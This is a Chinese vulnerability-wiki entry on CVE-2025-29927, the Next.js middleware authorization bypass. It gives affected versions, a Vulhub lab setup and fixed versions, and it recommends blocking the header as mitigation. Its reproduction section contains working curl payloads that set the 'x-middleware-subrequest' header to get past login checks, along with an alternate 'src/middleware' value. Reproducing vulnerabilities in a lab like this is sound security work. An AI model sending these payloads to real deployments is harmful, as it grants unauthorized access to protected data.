



## 核对与使用边界

- 明确更正：CVE-2025-29927 受影响范围应按 11.1.4 ≤ v &lt; 12.3.5、13.x &lt; 13.5.9、14.x &lt; 14.2.25、15.x &lt; 15.2.3 记录；原元数据只保留 15.x 不完整。
- 授权检查位于 middleware 才涉及该绕过；路由内独立权限检查需另验。官方称 Vercel 托管已自动防护此漏洞，该说明仅适用于本条 CVE，不能推广为所有部署/后续漏洞都安全。

核对来源：[Next.js 官方 GHSA](https://github.com/vercel/next.js/security/advisories/GHSA-f82v-jwr5-mffw)

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：影响表列13–15分支、修复另列12.3.5；元数据仅15.x，遗漏12.x影响范围及部署限制

代码与实验材料：15.2.2实验、基线无Cookie、两种middleware路径请求完整；截图未视检

来源证据范围：多项一手来源可追溯，未抓取

- **事实待核（1）**：范围元数据不完整；依据：影响表没12.x而修复列12.3.5；version只取第一行15.x。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

- **适用与权限边界（2）**：需加入托管/部署及授权边界；依据：依赖中间件作为唯一控制，应用路由级授权不能笼统视为被绕过；未说明各托管环境差异。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# Next.js 中间件鉴权绕过漏洞 CVE-2025-29927

## 漏洞描述

Next.js 是一个基于 React 的流行 Web 应用框架，提供服务器端渲染、静态网站生成和集成路由系统等功能。当使用中间件进行身份验证和授权时，Next.js 14.2.25 和 15.2.3 之前的版本存在授权绕过漏洞。

该漏洞允许攻击者通过操作 `x-middleware-subrequest` 请求头来绕过基于中间件的安全控制，从而可能获得对受保护资源和敏感数据的未授权访问。

参考链接：

- https://github.com/advisories/GHSA-f82v-jwr5-mffw
- https://zhero-web-sec.github.io/research-and-things/nextjs-and-the-corrupt-middleware
- https://nvd.nist.gov/vuln/detail/CVE-2025-29927
- https://nextjs.org/blog/cve-2025-29927
- https://github.com/aydinnyunus/CVE-2025-29927

## 漏洞影响

```
Next.js 15.x < 15.2.3
Next.js 14.x < 14.2.25
Next.js 13.x < 13.5.9
```

## 环境搭建

Vulhub 执行以下命令启动一个基于 Next.js 15.2.2 的存在漏洞的应用：

```
docker compose up -d
```

应用启动后，访问 `http://your-ip:3000` 会被重定向到登录页面。输入默认凭据 `admin:password`，你可以登录成功并访问仪表盘。




## 漏洞复现

如果在没有合法凭据的情况下直接访问仪表盘，将会被重定向到登录页面：

```
curl -i http://your-ip:3000
```

```
GET / HTTP/1.1
Host: your-ip:3000
Cookie: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Accept: */*
Accept-Encoding: gzip, deflate
```




要利用此漏洞，可以在请求中添加 `x-middleware-subrequest` 请求头，其值为 `middleware:middleware:middleware:middleware:middleware`。Next.js 中间件会错误地处理此请求头并绕过身份验证检查：

```
curl -i -H "x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware" http://your-ip:3000
```

```
GET / HTTP/1.1
Host: your-ip:3000
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Accept: */*
Accept-Encoding: gzip, deflate
x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware
```




可见，没有传入任何身份认证信息即可成功访问到仪表盘。

 如果上述 payload 不起作用，可以尝试：

```shell
x-middleware-subrequest: src/middleware:src/middleware:src/middleware:src/middleware:src/middleware
```

## 漏洞修复

已修复版本：

- 对于 Next.js 15.x 版本，此问题已在 `15.2.3` 中修复
- 对于 Next.js 14.x 版本，此问题已在 `14.2.25` 中修复
- 对于 Next.js 13.x 版本，此问题已在 `13.5.9` 中修复
- 对于 Next.js 12.x，此问题已在 `12.3.5` 中修复

如果修补到安全版本不可行，建议阻止包含 `x-middleware-subrequest` 头的外部用户请求。


---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
